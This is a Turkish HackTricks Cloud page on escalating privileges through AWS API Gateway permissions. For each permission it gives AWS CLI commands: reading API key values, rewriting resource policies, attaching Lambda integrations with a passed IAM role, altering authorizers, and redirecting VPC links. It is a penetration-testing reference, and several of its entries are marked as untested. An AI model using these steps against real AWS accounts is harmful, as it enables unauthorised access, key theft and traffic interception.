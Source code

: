 # AWS - Apigateway Yetki Yükseltme

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}

## Apigateway

Daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Bu izinle yapılandırılmış API'ların (bölge başına) API anahtarlarını oluşturabilirsiniz.
```bash
aws --region <region> apigateway create-api-key
```
**Potansiyel Etki:** Bu teknikle ayrıcalık yükseltemezsiniz ancak hassas bilgilere erişebilirsiniz.

### `apigateway:GET`

Bu izinle yapılandırılmış API'ların (bölgeye göre) oluşturulmuş API anahtarlarını alabilirsiniz.
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Potansiyel Etki:** Bu teknikle ayrıcalık yükseltemezsiniz ancak hassas bilgilere erişebilirsiniz.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Bu izinlerle, bir API'nin kaynak politikasını değiştirerek kendinize çağrı yapma ve API ağ geçidinin sahip olabileceği potansiyel erişimi kötüye kullanma olasılığınız vardır (örneğin, zafiyetli bir lambda'yı çağırmak). 

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Potansiyel Etki:** Genellikle, bu teknikle doğrudan ayrıcalık yükseltemezsiniz, ancak hassas bilgilere erişebilirsiniz.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Test Edilmesi Gerekiyor
{% endhint %}

`apigateway:PutIntegration`, `apigateway:CreateDeployment` ve `iam:PassRole` izinlerine sahip bir saldırgan, **IAM rolü ekli bir Lambda işlevine sahip mevcut bir API Gateway REST API'sine yeni bir entegrasyon ekleyebilir**. Saldırgan daha sonra **Lambda işlevini tetikleyerek keyfi kodları yürütebilir ve IAM rolü ile ilişkilendirilen kaynaklara potansiyel olarak erişebilir**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potansiyel Etki**: Lambda işlevinin IAM rolü ile ilişkili kaynaklara erişim.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Test edilmesi gerekmektedir
{% endhint %}

`apigateway:UpdateAuthorizer` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, mevcut bir API Gateway yetkilendirmesini değiştirerek güvenlik kontrollerini atlayabilir veya API istekleri yapıldığında keyfi kodları yürütebilir. 

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potansiyel Etki**: Güvenlik kontrollerini atlatma, API kaynaklarına izinsiz erişim.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Test Edilmesi Gerekiyor
{% endhint %}

`apigateway:UpdateVpcLink` iznine sahip bir saldırgan, **mevcut bir VPC Bağlantısını değiştirerek farklı bir Ağ Yük Dengeleyiciye yönlendirebilir ve böylece özel API trafiğini izinsiz veya kötü niyetli kaynaklara yönlendirebilir**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Potansiyel Etki**: Özel API kaynaklarına izinsiz erişim, API trafiğinin dinlenmesi veya kesilmesi.

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}
